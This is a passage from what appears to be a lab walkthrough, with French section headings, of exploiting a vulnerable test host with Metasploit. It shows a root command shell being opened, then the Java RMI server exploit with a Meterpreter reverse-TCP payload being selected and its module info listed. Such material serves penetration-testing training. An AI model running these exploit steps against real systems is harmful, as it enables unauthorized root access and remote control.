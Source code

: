 ```bash
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QWVjfmiAcpLxvElQ\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.56.114:4444 -> 192.168.56.115:48374) at 2021-01-26 09:50:33 +0000

id
uid=0(root) gid=0(root)
```

## Java RMI

#### Selectionner le payload

```bash
msf6 exploit(multi/misc/java_rmi_server) > search type:exploit java_rmi

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/browser/java_rmi_connection_impl  2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation
   1  exploit/multi/misc/java_rmi_server              2011-10-15       excellent  No     Java RMI Server Insecure Default Configuration Java Code Execution


Interact with a module by name or index, for example use 1 or use exploit/multi/misc/java_rmi_server

msf6 exploit(multi/misc/java_rmi_server) > use exploit/multi/misc/java_rmi_server
[*] Using configured payload java/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/misc/java_rmi_server) > info

       Name: Java RMI Server Insecure Default Configuration Java Code Execution
     Module: exploit/multi/misc/java_rmi_server
   Platform: Java, Linux, OSX, Solaris, Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-10-15

Provided by:
  mihi

Available targets:
  Id  Name
  --  ----
  0   Generic (Java Payload)
  1   Windows x86 (Native Payload)
  2   Linux x86 (Native Payload)
  3   Mac OS X PPC (Native Payload)
  4   Mac OS X x86 (Native Payload)

Check supported:
```